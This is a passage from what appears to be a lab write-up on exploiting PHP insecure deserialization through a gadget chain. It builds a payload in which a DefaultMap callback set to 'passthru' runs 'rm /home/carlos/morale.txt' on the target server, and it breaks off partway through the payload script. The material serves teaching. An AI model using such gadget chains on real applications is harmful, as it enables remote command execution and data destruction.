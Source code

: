 ```php
$test = new DefaultMap('passthru');
$command = 'rm /home/carlos/morale.txt';
$test->$command;
```

We assigned our arbitrary function name (`passthru`) to `$this->callback` by passing this value to the class constructor in the first line of code above. The `passthru` php function executes any command we send to it. 

The Third line in the above code triggers the `__get()` method invocation of `DefaultMap` class which results in the following code being executed:

```php
return call_user_func($this->callback, $name);
```

`$this->callback` is `passthru` and `$name` is `rm /home/carlos/morale.txt` now which results in this file being removed from the server.

So the sink gadget and code is complete, now we need to somehow link the kick-off gadget to the sink gadget to execute these lines of codes.

If we review the leaked code, we can see that we have an object(`$this->desc`) that can have the value of our first line above:

```php
$this->desc = new DefaultMap('passthru');
```

also we have a property(`$this->default_desc_type`) that can have the value of our second line above:

```php
$this->default_desc_type = 'rm /home/carlos/morale.txt';
```

and if we follow the code, we arrive at the last part in `Product` class constructor that gets the above `$this->desc` and `$this->default_desc_type` values as parameters and assign them to `$this->desc` of its own:

```php
public function __construct($default_desc_type, $desc) {
    $this->desc = $desc->$default_desc_type;
}
```

which is exactly what we want and is the same as the third line of our code above: `$test->$command;` which results in our arbitrary code being executed.

I have prepared a php file for creating the final payload with just the parts of the leaked code that are necessary for creating the payload:

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;

    public function __construct() {
        $this->desc = new DefaultMap('passthru');
        $this->default_desc_type = 'rm /home/carlos/morale.txt';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }
```